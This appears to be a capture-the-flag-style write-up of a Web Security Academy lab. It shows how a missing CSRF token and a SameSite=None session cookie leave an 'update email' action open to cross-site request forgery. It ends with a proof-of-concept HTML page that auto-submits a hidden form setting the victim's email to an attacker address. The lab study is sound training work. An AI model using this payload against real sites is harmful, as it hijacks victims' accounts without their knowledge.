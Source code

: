 <h1>Cross Site Request Forgery On Action With No CSRF Defenses</h1>

Scenario: I am testing the data integrity of a website located at 0a9c0040032ee23d80cffea8007e0099.web-security-academy[.]net. 
I want to know if any sensitive authenticated actions on the website are vulnerable to Cross Site Request Forgery (CSRF). Let's follow 
the checks below to find a CSRF vulnerability.

1. Check the SameSite attribute of the session cookie(s).
   ![image](https://github.com/user-attachments/assets/5160e69c-d267-4fc6-847f-4b0a825d7df4)

   As you can see, upon logging into the target website, my session cookie has the SameSite attribute set to 'None'. This means
   my session cookie can be used in cross-site requests.
2. Are there any authenticated actions that are not protected with CSRF tokens? Analyze the following process of changing a user's
   email address on the target website
   ![image](https://github.com/user-attachments/assets/4fc97bec-77c6-4fcb-9e2e-c1a027a6339d)
   ![image](https://github.com/user-attachments/assets/4900c730-d9c1-472e-956b-76af05b9edb9)
   ![image](https://github.com/user-attachments/assets/184b4c89-564f-4892-a4b4-2c6a390c0144)

   Notice that the user's email address is updated with an HTTP POST request that does not include any CSRF protection tokens in the request.

**We can now determine that the authenticated action of "Update email" on the target website is vulnerable to CSRF**

<h1>Proof Of Concept</h1>
To make a user change their email address on 0a9c0040032ee23d80cffea8007e0099.web-security-academy[.]net, an attacker can host the following file on their malicious domain. When the victim user visits the attacker's domain, their 0a9c0040032ee23d80cffea8007e0099.web-security-academy[.]net email address will be changed.

```
<!DOCTYPE html>
<html>
<body>
      <form action="https://0a9c0040032ee23d80cffea8007e0099.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="yougotpwned@evil-user.net">
      </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```

